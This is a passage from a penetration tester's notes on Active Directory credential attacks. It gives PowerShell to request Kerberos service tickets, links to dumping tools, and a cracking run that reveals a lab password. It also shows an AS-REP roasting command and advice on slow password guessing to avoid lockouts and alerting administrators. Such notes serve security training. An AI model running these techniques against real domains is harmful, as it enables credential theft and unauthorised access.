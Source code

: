 Requesting the service ticket:

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

Once requested the ticket, it is possible to dump it using:

- [mimikatz](../Tools/mimikatz.md#Exporting%20Kerberos%20Tickets)
- [Dumping Kerberos Tickets with klist](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md#Dumping%20Kerberos%20Tickets%20(klist))
- [Invoke-Kerberoast.ps1](../Tools/Empire.md#Invoke-Kerberoast.ps1)
- [GetUserSPNs](../Tools/impacket.md#GetUserSPNs) (If it is not possible to get access to the machine but valid credentials are known)

and then [cracking it ](Password%20Attacks.md#Cracking%20Hashes) (converting it with [kirbi2john](../Tools/john.md#External%20scripts)) though the usage of

- [john](../Tools/john.md)
- [hashcat](../Tools/hashcat.md#Kerberoasting)
- [tgsrepcrack.py](https://github.com/nidem/kerberoast)
    
    ```
    kali@kali:~$ sudo apt update && sudo apt install kerberoast
    ...
    kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
    found password for ticket 0: Qwerty09! File: 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
    All tickets cracked!
    
    ```
    

## AS-REP Roasting

>[!tip]
>By default pre-authentication against Domain Controller is enabled for every user. If one or more users have it disabled, it is possible to intercept and try to crack the AS-REP response from the KDC, obtaining the user hash and next cracking it.

```bash
kali@kali:~$ GetNPUsers.py domain.local/user
```

Tools:

- [PowerView.ps1](../Tools/Empire.md#PowerView.ps1) (enumerating users)
- [AS-REP Roasting](../Tools/impacket.md#AS-REP%20Roasting)

## Low and Slow Password Guessing

When performing a brute-force or wordlist authentication attack, we must be aware of account lockouts since too many failed logins may block the account for further attacks and possibly alert system administrators.


[^1]: https://github.com/nidem/kerberoast
[^2]: [Overpass the Hash (NTLM —> Kerberos)](../Tools/mimikatz.md#Overpass%20the%20Hash%20(NTLM%20—>%20Kerberos))
[^3]: [Craft a Silver Ticket](../Tools/mimikatz.md#Craft%20a%20Silver%20Ticket)
[^4]: [Craft a Golden Ticket](../Tools/mimikatz.md#Craft%20a%20Golden%20Ticket)
[^5]: [User Replication Updates](../Tools/mimikatz.md#User%20Replication%20Updates)